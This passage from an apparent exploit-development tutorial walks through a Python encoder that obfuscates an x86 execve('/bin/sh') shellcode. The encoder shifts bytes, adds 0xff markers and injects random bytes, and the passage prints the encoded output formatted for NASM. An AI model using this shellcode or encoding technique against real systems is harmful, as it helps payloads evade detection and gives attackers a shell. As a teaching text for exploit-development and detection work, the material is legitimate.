 Output

```terminal_session
root@kali:~# python3 encoder.py
\xff\x62\xc0\xff\xa0\xff\xd0\xff\x5e\xff\x5e\xff\xe6\xff\xd0\xff\xd0\xff\x5e\xff\xc4\xff\xd2\xff\xdc\x89\xe3\xff\xa0\x89\xe2\xff\xa6\x89\xe1\xb0\xff\x16\xcd\x80
```

Looks like we ended up with 15 of the bytes shifted. That's pretty cool!

### Step 2 -- Random Byte Injection

Now we import the `random` module and use it to inject a random byte during each iteration of the loop. In other words, our encoder will now shift bytes lower than `128`, prepend those bytes with `0xff`, and then finally append that byte with a random byte. So in practice we can have the following pseudo bytes sequences:
+ Unshifted + Random
+ 0xff + Shifted + Random

Lastly, we'll want to print to terminal our shellcode formatted in a way that we can use it in our assembly, annotated here as the 'For NASM:' output.

```python
import random

byteObject = (b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
encode = ""


for x in bytearray(byteObject):
	if x < 128:
		x = x << 1
		encode += '\\xff'

	encode += "\\x"
	encode += '%02x'% x
	sneaky = random.randint(2,253)
	encode += '\\x%02x' % sneaky

		

db = str(encode).replace("\\x", ",0x")
db = db[1:]
print('For NASM: ' + db)
```

Running this gives us the following output:

```terminal_session
root@kali:~# python3 encoder.py
For NASM: 0xff,0x62,0x0f,0xc0,0xde,0xff,0xa0,0x5a,0xff,0xd0,0x1b,0xff,0x5e,0x09,0xff,0x5e,0xed,0xff,0xe6,0x09,0xff,0xd0,0x93,0xff,0xd0,0x30,0xff,0x5e,0xc8,0xff,0xc4,0x26,0xff,0xd2,0x3e,0xff,0xdc,0xa3,0x89,0x14,0xe3,0x9a,0xff,0xa0,0x47,0x89,0xe0,0xe2,0xa2,0xff,0xa6,0xa5,0x89,0x8b,0xe1,0x9e,0xb0,0x67,0xff,0x16,0x8c,0xcd,0xb2,0x80,0x30
```
